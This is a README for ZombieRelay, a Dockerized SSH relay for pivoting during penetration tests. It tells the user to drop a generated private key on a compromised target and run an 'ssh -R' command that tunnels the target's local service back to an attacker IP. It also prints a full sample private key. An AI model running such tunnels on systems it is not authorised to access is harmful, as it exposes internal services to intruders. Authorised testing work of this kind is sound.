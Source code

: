 # Zombie Relay

## Usage

```sh
git clone https://github.com/0xyy66/ZombieRelay.git
cd ZombieRelay
docker compose up
```

Everytime you create the container, the compose will automatically create a new private key and print its content, so you can copy-paste it and drop it on the target to connect to the container.

```
...
zombierelay-1  | Use the following private key to access the server
zombierelay-1  | -----BEGIN OPENSSH PRIVATE KEY-----
zombierelay-1  | b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
zombierelay-1  | QyNTUxOQAAACAFqEIsJ1vglEsv4P2PZF2xj6WYlRmWFOJucCCFBAt1hAAAAIhlWMJQZVjC
zombierelay-1  | UAAAAAtzc2gtZWQyNTUxOQAAACAFqEIsJ1vglEsv4P2PZF2xj6WYlRmWFOJucCCFBAt1hA
zombierelay-1  | AAAEAN7V7UYQEnKO7vrOZmGGR7EulGE3Cjco41Jf7xbK9pPQWoQiwnW+CUSy/g/Y9kXbGP
zombierelay-1  | pZiVGZYU4m5wIIUEC3WEAAAAAAECAwQF
zombierelay-1  | -----END OPENSSH PRIVATE KEY-----
...
```

Make sure to remove the container prefix "zombierelay-1 | " from every line.

### Tunnel a remote service on your host

In order to correctly tunnel the remote service on your host, you need to drop the private key printed by docker (id_rsa) and run the following command on the target (assuming the target service that interests you runs locally on port 9090).

```sh
ssh -i id_rsa -p 2224 -R *:9090:127.0.0.1:9090 root@10.10.14.20 -N -f
```

The command above corresponds to: `ssh -i <private_key> -p <attacker_ssh_port> -R <attacker_iface>:<attacker_service_port>:<target_iface>:<target_service_port> root@<attacker_ip> -N -f`

### Config

You may need to edit the docker-compose.yaml file to modify the mapped ports or add more.

By default, the following ports are mapped:
- 2224:22 - OpenSSH exposed on your host on port 2224
- 9090:9090 - You can tunnel a remote application on port 9090, it will become accessible on localhost:9090


